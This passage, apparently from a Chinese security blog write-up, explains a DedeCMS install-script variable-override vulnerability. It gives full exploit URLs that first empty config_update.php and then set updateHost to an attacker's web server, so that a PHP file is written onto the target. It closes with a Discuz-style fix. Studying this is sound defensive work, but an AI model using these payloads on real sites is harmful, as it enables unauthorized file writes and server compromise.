 2.updateHost是来自于config_update.php的包含，无法直接将该变量覆盖。
故需要借用`fopen($install_demo_name,'w')`**将config_update.php清空**
(w权限特质, 文件存在则清空内容再写入)



构造payload：

传入`$install_demo_name=config_update.php；`

而`fwrite($fp,$sql_content)`的存在会将 `$sql_content` 写入`config_update.php`

`$sql_content`是提取`$rmurl`指代的文件内容写入

`file_get_contents`读取失败时返回NULL，因此控制`$s_lang`为不存在的文件名即可使`$sql_content`= NULL

```
payload：
xxx/uploads/install/index.php?step=11&insLockfile=1&install_demo_name=../data/admin/config_update.php&s_lang=hhhhhh
```

显示为0kb，显然config_update.php已被清空了

![](https://i.loli.net/2021/02/14/PUsAi5xjzIXw1c7.png)



3.随着config_update.php的清空，参数updateHost变得可控，可以开始远程上传文件了~



在kali上创建一个dedecms文件夹,然后创建一个demodata.gb2312.txt,写入`<?php phpinfo();?>` 

然后开启web服务: `sudo service apache2 start`

![](https://i.loli.net/2021/02/14/P7RzZ83vpw1kISt.png)

```
payload：
xxx/uploads/install/index.php?step=11&insLockfile=1&install_demo_name=../info.php&updateHost=目标主机ip
```

显示如下画面即成功

![](https://i.loli.net/2021/02/14/tHFvmb8LRqnlY4p.png)

如下

![](https://i.loli.net/2021/02/14/DEIowJPlQvh3dyG.png)



此漏洞根源还是变量覆盖，修复：

1、可以看看DISCUZ是怎么做的，当发现KEY的第一个字符存在_就不注册变量。

```php
foreach(array(‘_COOKIE’, ‘_POST’, ‘_GET’) as $_request) {

 foreach($$_request as $_key => $_value) {

 $_key{0} != ‘_’ && $$_key = daddslashes($_value);

 }

}
```
